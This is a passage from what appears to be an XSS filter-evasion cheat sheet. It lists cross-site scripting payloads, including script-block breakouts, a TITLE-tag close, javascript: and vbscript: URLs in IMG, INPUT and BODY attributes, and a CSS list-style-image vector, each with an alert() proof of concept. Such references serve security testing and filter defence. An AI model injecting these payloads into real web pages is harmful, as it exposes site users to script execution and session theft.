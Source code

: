 `\";alert('XSS');//`

An alternative, if correct JSON or Javascript escaping has been applied
to the embedded data but not HTML encoding, is to finish the script
block and start your own:

</script>

<script>

alert('XSS');

</script>

## End title tag

This is a simple XSS vector that closes

<TITLE>

tags, which can encapsulate the malicious cross site scripting attack:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

## INPUT image

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

## BODY image

`<BODY BACKGROUND="javascript:alert('XSS')">`

## IMG Dynsrc

`<IMG DYNSRC="javascript:alert('XSS')">`

## IMG lowsrc

`<IMG LOWSRC="javascript:alert('XSS')">`

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists.
This will only work in the IE rendering engine because of the JavaScript
directive. Not a particularly useful cross site scripting vector:

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

## VBscript in an image

`<IMG SRC='vbscript:msgbox("XSS")'>`
